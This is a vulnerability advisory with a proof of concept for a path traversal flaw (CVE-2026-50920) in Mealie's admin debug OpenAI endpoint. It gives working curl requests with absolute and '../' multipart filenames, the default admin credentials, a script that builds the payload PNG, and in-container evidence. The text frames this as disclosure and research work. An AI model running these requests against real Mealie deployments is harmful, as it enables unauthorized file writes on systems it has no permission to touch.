



# CVE-2026-50920 — Authenticated Arbitrary File Write via Multipart Filename Path Traversal in Mealie Admin Debug OpenAI Endpoint

[CVE ID]
CVE-2026-50920

[PRODUCT]
mealie-recipes/mealie — self-hosted recipe manager and meal planner (FastAPI backend + Nuxt frontend, officially distributed as a Docker image)

[VERSION]
commit `15d56c42f7e9e4d1c866cde8b993f56f67add91a` (upstream HEAD, 2026-03-02)

[PROBLEM TYPE]
Directory Traversal (`CWE-22`)

## Description

The admin-only endpoint `POST /api/admin/debug/openai` (`mealie/routes/admin/admin_debug.py:17-18`, an `AdminDebugController` route used to test the OpenAI integration) accepts a multipart upload `image: UploadFile | None`. The multipart `filename` is fully attacker-controlled. Inside a per-request temp-dir context (`get_temporary_path()` → `/app/data/.temp/<uuid>`), the handler persists the upload with `temp_path.joinpath(image.filename).open("wb")` (L28) and re-derives the path at L30. `pathlib.Path.joinpath` performs no sanitization: an absolute filename discards the temp dir entirely, and `../` segments walk out of it, so the raw upload bytes land at an arbitrary path writable by the service user. The route is gated at L19-24 (`OPENAI_ENABLED`, and — when an image is supplied — `OPENAI_ENABLE_IMAGE_SERVICES`): with a default deployment (no OpenAI configuration) the handler returns before the sink, but when the OpenAI integration is configured the traversal write happens *before* any OpenAI API call, so even a failing (dummy-key) request still writes the file; the handler catches the OpenAI exception and replies HTTP 200 `{"success": false, ...}`.

Vulnerable code: <https://github.com/mealie-recipes/mealie/blob/15d56c42f7e9e4d1c866cde8b993f56f67add91a/mealie/routes/admin/admin_debug.py#L26-L31>

## Proof of Concept

### Victim setup

Official compose file at the pinned commit, plus an override that (1) maps the assigned host port and (2) enables the OpenAI integration (`ports: !override` keeps only the assigned port; the official file also maps 9091).

```bash
git clone https://github.com/mealie-recipes/mealie.git
cd mealie
git checkout 15d56c42f7e9e4d1c866cde8b993f56f67add91a

cat > docker/docker-compose.scdd.override.yml <<'YAML'
services:
  mealie:
    container_name: mealie-scdd-50920
    image: mealie:scdd-50920
    ports: !override
      - "34790:9000"
    environment:
      OPENAI_ENABLED: "true"
      OPENAI_ENABLE_IMAGE_SERVICES: "true"
      OPENAI_API_KEY: "scdd_dummy"
YAML

docker compose -p scdd_50920 -f docker/docker-compose.yml -f docker/docker-compose.scdd.override.yml up -d
# poll until: curl -fsS http://127.0.0.1:34790/api/app/about -> 200
```

Image prerequisite: the override names a local image, and `up -d` does not build one. The recorded run deliberately reused an already-built pinned-commit image (`mealie:scdd-50920`, id `sha256:ade130c353f5cacc438d2f70dd081381e8e19c8e60d6814680133bdb31b0f7ff`, recorded in the transcript) instead of rebuilding; if the tag is absent on your machine, run the same `up -d` command with `--build` so the official compose `build` definition builds the image from the checked-out commit. Provenance of the running image was verified in-container: `grep -n 'joinpath(image.filename)' .../mealie/routes/admin/admin_debug.py` returns the sink at L28/L30, and `sed -n 17,31p` prints the full vulnerable handler (both recorded in `evidence/transcript.txt`).



### Attack steps

```bash
BASE="http://127.0.0.1:34790"

# 1) Authenticate via OAuth2 password flow (default first-login credentials)
TOKEN="$(curl -sS -X POST "$BASE/api/auth/token" \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'username=admin' \
  --data-urlencode 'password=MyPassword' \
  | python3 -c 'import json,sys; print(json.load(sys.stdin)["access_token"])')"

# 2) Build a 103-byte 1x1 PNG whose tEXt chunk carries the marker CVE50920_MARKER
python3 - <<'PY'
import struct, zlib
marker = b"CVE50920_MARKER"
def chunk(typ, data):
    crc = zlib.crc32(typ); crc = zlib.crc32(data, crc) & 0xFFFFFFFF
    return struct.pack(">I", len(data)) + typ + data + struct.pack(">I", crc)
sig = b"\x89PNG\r\n\x1a\n"
ihdr = struct.pack(">IIBBBBB", 1, 1, 8, 6, 0, 0, 0)
idat = zlib.compress(b"\x00\x00\x00\x00\x00")
png = sig + chunk(b"IHDR", ihdr) + chunk(b"tEXt", b"Comment\x00" + marker) + chunk(b"IDAT", idat) + chunk(b"IEND", b"")
open("/tmp/scdd_50920_payload.png", "wb").write(png)
PY

# 3a) Attack A — multipart filename is an ABSOLUTE path
curl -sS -m 120 -X POST "$BASE/api/admin/debug/openai" \
  -H "Authorization: Bearer $TOKEN" -H 'Accept: application/json' \
  -F "image=@/tmp/scdd_50920_payload.png;filename=/tmp/scdd_50920_pwned.png;type=image/png" \
  -w '\nHTTP_STATUS=%{http_code}\n'
# -> {"success":false,"response":"OpenAI request failed. ... AuthenticationError: Error code: 401 ..."}
# -> HTTP_STATUS=200  (dummy OpenAI key fails only AFTER the traversal write already hit the disk)

# 3b) Attack B — multipart filename is a dot-dot traversal
#     (per-request temp dir is /app/data/.temp/<uuid>; 4x ".." reaches /)
curl -sS -m 120 -X POST "$BASE/api/admin/debug/openai" \
  -H "Authorization: Bearer $TOKEN" -H 'Accept: application/json' \
  -F "image=@/tmp/scdd_50920_payload.png;filename=../../../../tmp/scdd_50920_pwned2.png;type=image/png" \
  -w '\nHTTP_STATUS=%{http_code}\n'
# -> HTTP_STATUS=200, file written
```



### Evidence

In-container verification (`docker exec mealie-scdd-50920 ...`):

```
$ docker exec mealie-scdd-50920 ls -la /tmp/scdd_50920_pwned.png /tmp/scdd_50920_pwned2.png
-rw-r--r-- 1 abc abc 103 Sep 28 05:08 /tmp/scdd_50920_pwned.png
-rw-r--r-- 1 abc abc 103 Sep 28 05:08 /tmp/scdd_50920_pwned2.png

$ docker exec -i mealie-scdd-50920 python3 -
/tmp/scdd_50920_pwned.png  exists=True size=103 md5=311935a44d17d5ccbae0e5bc0f80a3b8 has_marker=True
/tmp/scdd_50920_pwned2.png exists=True size=103 md5=311935a44d17d5ccbae0e5bc0f80a3b8 has_marker=True
$ python3 -   (host-side reference)
host payload size=103 md5=311935a44d17d5ccbae0e5bc0f80a3b8 has_marker=True
```

Both written files are byte-for-byte identical to the attacker's upload (same md5, marker `CVE50920_MARKER` present), proving arbitrary-path write of arbitrary attacker-controlled bytes. Pre-attack the target did not exist (`ls: cannot access '/tmp/scdd_50920_pwned.png': No such file or directory`), and the per-request temp dir (which `get_temporary_path()` removes on exit) cannot contain either path — the files were written outside it and survive the request.

Negative controls — same request against stacks recreated with reduced configuration:

```
(a) default deployment, no OpenAI env at all:
{"success":false,"response":"OpenAI is not enabled"}
HTTP_STATUS=200
$ docker exec mealie-scdd-50920 ls /tmp/scdd_50920_negctl.png
ls: cannot access '/tmp/scdd_50920_negctl.png': No such file or directory

(b) OpenAI enabled (OPENAI_API_KEY set) but OPENAI_ENABLE_IMAGE_SERVICES=false:
{"success":false,"response":"Image was provided, but OpenAI image services are not enabled"}
HTTP_STATUS=200
$ docker exec mealie-scdd-50920 ls /tmp/scdd_50920_negctl2.png
ls: cannot access '/tmp/scdd_50920_negctl2.png': No such file or directory
```



## Impact

An authenticated **administrator** (on a fresh instance the default first-login credentials `admin` / `MyPassword` bootstrap the admin account) can reach the sink only when the instance has the OpenAI integration configured: `OPENAI_ENABLED` is derived from `OPENAI_API_KEY` (and `OPENAI_MODEL`, which defaults to `gpt-4o`), and `OPENAI_ENABLE_IMAGE_SERVICES` must not be explicitly disabled (its default is `true`). A default deployment with no OpenAI configuration is not reachable — the handler returns `{"success":false,"response":"OpenAI is not enabled"}` before any file is written (proven by negative control (a)). With the gate open, the attacker controls the full write: arbitrary destination path (absolute paths, or `../` chains escaping the per-request temp dir) and arbitrary content (the uploaded bytes are written verbatim via `shutil.copyfileobj`, subject only to the body being parseable multipart). The write is bounded by the container service user's (`abc`) filesystem permissions. Proven primitive: administrator-authenticated, configuration-gated arbitrary-path write of arbitrary uploaded bytes — this PoC demonstrates the file write and nothing further. The CVE record characterizes the issue as remote code execution; that escalation was not demonstrated here. It would additionally require overwriting a file the service user may write (e.g. application code/config) that the application later loads or executes, which is a plausible but not demonstrated consequence of the proven write primitive.

## Occurrences

- `mealie/routes/admin/admin_debug.py:17` — `POST /debug/openai` route (`AdminDebugController`, mounted under `/api/admin`); feature gates at L19-24
- `mealie/routes/admin/admin_debug.py:28` — sink: `temp_path.joinpath(image.filename).open("wb")` (unsanitized multipart filename; path re-derived at L30)
- `mealie/core/dependencies/dependencies.py:191` — `get_temporary_path()`: per-request temp dir (`/app/data/.temp/<uuid>`), removed on request exit — the traversed write target lies outside it and survives

## References

- [CVE-2026-50920](https://www.cve.org/CVERecord?id=CVE-2026-50920)
- [mealie-recipes/mealie](https://github.com/mealie-recipes/mealie)
- Sink at pinned commit: <https://github.com/mealie-recipes/mealie/blob/15d56c42f7e9e4d1c866cde8b993f56f67add91a/mealie/routes/admin/admin_debug.py#L28>
